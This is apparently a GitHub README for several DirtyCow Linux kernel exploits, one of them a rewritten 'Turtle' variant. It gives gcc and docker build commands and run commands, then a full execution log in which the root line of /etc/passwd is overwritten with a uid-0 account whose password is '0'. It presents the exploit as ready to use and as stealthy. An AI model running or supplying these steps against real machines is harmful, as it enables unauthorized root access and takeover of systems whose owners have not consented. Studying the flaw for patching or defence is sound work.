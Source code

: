 # DirtyCow Origin :cow:

This exploit uses the pokemon exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line.
The user will be prompted for the new password when the binary is run.
The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line.
After running the exploit you should be able to login with the newly created user.

To use this exploit modify the user values according to your needs.

The default user being created is `firefart`.

Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
  https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c

Compile with:

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

Then run the newly create binary by either doing:
```bash
./dirty
```

or

```bash
 ./dirty my-new-password
 ```
Afterwards, you can either `su firefart` or `ssh firefart@...`

**DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!**

```bash
mv /tmp/passwd.bak /etc/passwd
```

Exploit adopted by Christian "FireFart" Mehlmauer

https://firefart.at

# DirtyCow with Cowherd :cow: :woman_farmer:

In this version the additional `cowherd thread` stop the original threads when the job is done.

## Compile for Debian Squeeze 32
* Use a docker target os to compile the exploit 
```
docker run --platform linux/386 -it -v $(pwd):/tmp debian/eol:squeeze
root@07ccd56551fe:/# apt-get update
...
root@07ccd56551fe:/# apt-get install gcc
....
root@07ccd56551fe:/# cd /tmp
root@07ccd56551fe:/tmp# head -n 20 dirty.c
...
root@07ccd56551fe:/tmp# head -n 20 cowherd.c
...
```
* Follow the compilation instructions
* Use it as the original


# Turtle :rabbit: :turtle:

This is a completely rewriting that "better" exploit of the dirty cow flaw by
1. optimizing the substitution algorithm
    * works by chunks not single character
    * watches each chunk and stop trying if the chunk's substitution is done
1. not stressing the scheduler so non atomic operations has better chance to appear

Which results that the exploit is
* **stealthy** because it don't stress the machine beacuse (not overload)
* **very fast**, the execution time is some `µs` versus some `seconds`

## Compile for Debian Wheezy 64

* Use a docker target os to compile the exploit 
```
docker run --platform linux/amd64 -it -v $(pwd):/tmp debian/eol:wheezy
root@07ccd56551fe:/# apt-get update
...
root@07ccd56551fe:/# apt-get install gcc
....
root@07ccd56551fe:/# cd /tmp
root@07ccd56551fe:/# gcc -pthread main.c -o turtle
```
## Use

```
$ ./turtle 

⛔ usage: build_name race_length race_interval advisor_interval

$ ./turtle 256 1 3

       236 µs	● run process[MAIN] >> thread[main]
       340 µs	⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup]
       421 µs	⚬ ⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup -> main_backup_passwd_file]
     4,023 µs	⚬ ⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_backup_passwd_file]
     4,067 µs	⚬ ⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup -> main_map_passwd_file_to_memory]
     4,154 µs	⚬ ⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_map_passwd_file_to_memory]
     4,169 µs	⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_setup]
     4,299 µs	● run process[POKEMON (MAIN is now POKEMON)] >> thread[main]
     4,328 µs	⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_setup]
     4,352 µs	⚬ ● run process[COWHERD -> ADVISOR] >> thread[main]
     4,488 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_setup]
     4,985 µs	⚬ ● run process[POKEMON -> ADVISOR] >> thread[advisor]
     5,030 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[advisor] >>> function[advise_kernel]🐮🔄
     5,593 µs	⚬ ● end process[COWHERD -> POKEMON] >> thread[main] >>> function[pokemon_setup]
     5,778 µs	⚬ ● run process[COWHERD -> POKEMON] >> thread[main] >>> function[pokemon_run]🐮🔄
     5,794 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     5,877 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     5,892 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     5,906 µs	● root:x:0:0:root:/root:/bin/bash
     5,915 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,570 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     7,610 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     7,618 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,627 µs	● 0:002UBq03Nvvos:0:0:::/bin/bash
     7,631 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,717 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_sigterm]
     7,768 µs	● ADVISOR: .........34 memory advise
     7,790 µs	⚬ ⚬ ● end process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_sigterm]
     7,816 µs	⚬ ● end process[POKEMON -> ADVISOR] >> thread[main]
     8,045 µs	● POKEMON: ......1,024 ptrace poketext
     8,054 µs	⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run]🐮🔄
     8,061 µs	● end process[POKEMON] >> thread[main]

$ head -n 3 /etc/passwd
0:002UBq03Nvvos:0:0:::/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
...
```
Now
* the name of the user having the `id 0` (former `root`) is `0` and is password too :hushed:
* the integrity the second line of the `/etc/passwd` is preserved because the lenght of the first line is unchanged :wink:


